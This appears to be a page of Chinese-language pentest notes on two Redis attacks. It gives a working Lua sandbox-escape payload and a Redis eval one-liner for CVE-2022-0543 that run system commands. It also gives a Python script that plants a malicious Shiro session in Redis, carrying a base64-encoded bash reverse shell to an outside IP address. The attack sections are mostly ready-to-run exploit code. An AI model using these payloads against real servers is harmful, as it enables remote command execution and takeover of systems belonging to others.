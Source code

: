 
# Lua沙盒逃逸--CVE-2022-0543

## 漏洞复现

- 运行在Debian系列的linux上的Redis

  > 实际上是系统问题，而不是redis的问题
  >
  > 在 Debian 系的 Linux 发行版系统上，Lua的package 变量没有被正确清除，导致攻击者可以利用它来进行 Lua 沙箱逃逸，从而执行任意系统命令。

借助Lua沙箱中遗留的变量`package`的`loadlib`函数来加载动态链接库`/usr/lib/x86_64-linux-gnu/liblua5.1.so.0`里的导出函数`luaopen_io`。在Lua中执行这个导出函数，即可获得`io`库，再使用其执行命令：

```lua
local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io");
local io = io_l();
local f = io.popen("id", "r");
local res = f:read("*a");
f:close();
return res
```

**注意不同环境下的liblua库路径不同，需要指定一个正确的路径**

连接redis，使用`eval`命令执行上述脚本：

```verilog
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```

工具一键执行命令

![image-20230920151956149](../../../images/image-20230920151956149.png)



# Shiro-Redis反序列化

shiro默认将session存储在内存里面。这样导致shiro的session是不共享的。使用redis来存储shiro session可以让其他服务也共享shiro的认证信息。

过程：shiro会根据jessionid来找到存储于redis中的session信息，并对其进行反序列化。

**向redis中插入恶意session信息**

```python
import pyyso
import redis

redis_conn=redis.StrictRedis(host="192.168.1.104", port=6379,password="abc123")

# whatever 是 session 名称
whatever=b"123"
key=b"shiro:session:"+whatever
value=pyyso.cb1v192('bash -c "{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjQuMjIwLjE5Mi4xMjAvMTIzNCAwPiYx}|{base64,-d}|{bash,-i}"')
print(value)
redis_conn.set(key,value)
```
